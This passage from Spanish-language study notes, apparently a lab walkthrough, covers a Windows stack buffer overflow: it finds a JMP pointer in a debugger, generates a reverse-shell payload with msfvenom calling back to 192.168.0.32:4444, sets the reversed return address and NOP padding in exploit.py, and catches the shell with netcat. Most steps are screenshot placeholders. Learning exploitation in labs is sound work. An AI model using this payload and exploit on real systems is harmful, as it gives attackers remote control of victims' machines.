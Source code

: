 Y se nos muestra el pointer, el cual es 0x311712f3:
![[Pasted image 20231201103636.png]]

Ahora volvemos a ejecutar el programa haciendo clic en el siguiente botón, donde se nos debería abrir un apartado para insertar datos:
![[Pasted image 20231201103842.png]]

Aquí pondremos el pointer obtenido anteriormente:
![[Pasted image 20231201103911.png]]

Damos a OK y nos fijamos en el siguiente campo:
![[Pasted image 20231201103959.png]]

Lo seleccionamos y hacemos clic en F2, donde a continuación le daremos al play:
![[Pasted image 20231201104056.png]]

## GENERAR SHELLCODE
Ahora ya lo tenemos todo preparado para generar el shellcode, por lo que usaremos msfvenom de la siguiente forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.32 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20231201104319.png]]

Pegamos este resultado en la variable payload del exploit.py:
![[Pasted image 20231201104514.png]]

Y cambiamos las siguientes variables, donde la variable retn es el número del jmp que vimos anteriormente pero al revés:
```python
retn= "\xf3\x12\x17\x31"

padding = "\x90" * 16
```
![[Pasted image 20231201104946.png]]

Ponemos la IP real del objetivo (ya no estamos testeando con el inmunity debugger, sino que atacaremos al target real):
![[Pasted image 20231201105050.png]]

Lo ejecutamos:
![[Pasted image 20231201105126.png]]

Y mientrar estamos escuchando con netcat, habremos recibido la reverse shell gracias al shellcode generado anteriormente:
![[Pasted image 20231201105139.png]]

























